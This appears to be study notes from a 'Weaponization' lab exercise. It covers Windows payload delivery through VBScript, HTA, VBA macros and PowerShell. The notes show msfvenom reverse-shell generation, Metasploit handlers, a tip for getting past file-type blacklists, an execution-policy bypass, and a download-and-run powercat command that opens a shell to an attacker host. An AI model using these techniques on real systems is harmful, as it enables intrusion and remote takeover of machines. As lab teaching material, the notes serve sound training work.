 # Weaponization

## Windows Scripting Host (WSH)
It is a Windows native engine, `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.   
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
```
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs 
```
Another trick. If the VBS files are blacklisted, then we can rename the file to `.txt` file and run it using `wscript` as follows,
```
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```  

## An HTML Application (HTA)
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.  
### HTA Reverse Connection
```
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```
```
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```
### Malicious HTA via Metasploit 
```
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

## Visual Basic for Application (VBA)
```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```
Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.  
```
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

## PowerShell (PSH)
### Execution Policy
```
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
```
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```
### Bypass Execution Policy
`-ex bypass`
```
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```
- `powercat`
```
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.

user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
```
user@machine$ nc -lvp 1337
```
Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,
```
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```
